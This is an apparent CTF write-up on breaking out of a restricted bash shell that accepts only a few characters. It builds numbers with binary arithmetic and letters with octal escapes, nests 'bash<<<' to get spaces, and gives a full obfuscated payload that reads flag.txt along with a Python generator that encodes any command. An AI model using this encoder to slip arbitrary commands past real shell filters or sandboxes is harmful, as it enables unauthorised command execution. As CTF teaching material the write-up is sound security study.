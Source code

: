 ```yaml
---
ai_date: 2025-04-27 05:21:25
ai_summary: Exploited command injection using octal escape sequences and binary conversion to obtain numbers and characters in a restricted shell
ai_tags:
  - cmd-inj
  - octal-esc
  - binary-conversion
created: 2024-08-03T16:18
points: 476
solves: 16
tags:
  - bash
updated: 2025-07-14T09:46
---
```


## analysis
With some quick trial and error (trying all printable chars), we can obtain the valid charset this shell accepts.

```
01#$'()<\
```

That is very little indeed.

## step 1: numbers
Obviously at some point we need to obtain letters, and before that we need numbers.

A great candidate would be octal representation of characters `\000`.

How would we obtain numbers?

We can use `$((2#00010))` to convert from binary representation to decimal.

And we can obtain the 2 via `$((1<<1))`.

Putting them together we can now construct any number with `$(($((1<<1))#000101))`.

## step 2: characters

> Characters can be written as the octal form `\nnn` using numbers.

However, simply putting numbers together doesn't make them letters. 😢

The escape sequence `ls` can be written as `\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#110))$(($((1<<1))#11))`.
But it would not run as `ls`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722717087/2024/08/3a67ead104579fdc188d6cae78bb9c98.png)

I got stuck on this for a long time (very long time), until I stumbled upon writeups for a past CTF challenge `minbashmaxfun`.

I can use `bash<<<\$\'\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#110))$(($((1<<1))#11))\'` to run `ls`.

And since we are in bash, that would mean `$0<<<'...'`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722717507/2024/08/4173577f7e6a6375aed6d2a998c90c43.png)

## step 3: spaces

However, we still have another issue.

Using the above method we can indeed run any command, but arguments (and spaces) are interpreted as part of the command.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722716940/2024/08/793bab89e87bd1830be75bb94b7f435d.png)

I, again, got stuck for quite a while until I stumbled upon another writeup for the same challenge `minbashmaxfun`.

The solution is simple, use another layer of `bash<<<`.

The final solution would be something like this.

```bash
bash<<<bash\<\<\<\$\'cat(smthhere)flag.txt\' # space here is in escape form
bash<<<$'cat flag.txt' # space becomes a space
cat flag.txt # profit
```

## solve script

The final payload is.

```bash
$0<<<$0\<\<\<\$\'\\1$(($((1<<1))#100))$(($((1<<1))#11))\\1$(($((1<<1))#100))1\\1$(($((1<<1))#110))$(($((1<<1))#100))\\0$(($((1<<1))#100))0\\1$(($((1<<1))#100))$(($((1<<1))#110))\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#100))1\\1$(($((1<<1))#100))$(($((1<<1))#111))\\0$(($((1<<1))#101))$(($((1<<1))#110))\\1$(($((1<<1))#110))$(($((1<<1))#100))\\1$(($((1<<1))#111))0\\1$(($((1<<1))#110))$(($((1<<1))#100))\'
```

The translator is a python script I wrote.

```python
import string


def repl_nums(c):
    if c in '01':
        return c
    return f"$(($((1<<1))#{bin(int(c))[2:]}))"


def t(c):
    # if c not in "01#$'()<\\":
    return '\\\\'+''.join([repl_nums(_) for _ in oct(ord(c))[2:].zfill(3)])
    # return c

payload = "cat flag.txt"
payload = ''.join([t(c) for c in payload])
out = f"$0<<<$0\\<\\<\\<\\$\\'{payload}\\'"
print(out)
```

```flag
TFCCTF{fb1_0p3n_up!!!!__0x410x410x410x41}
```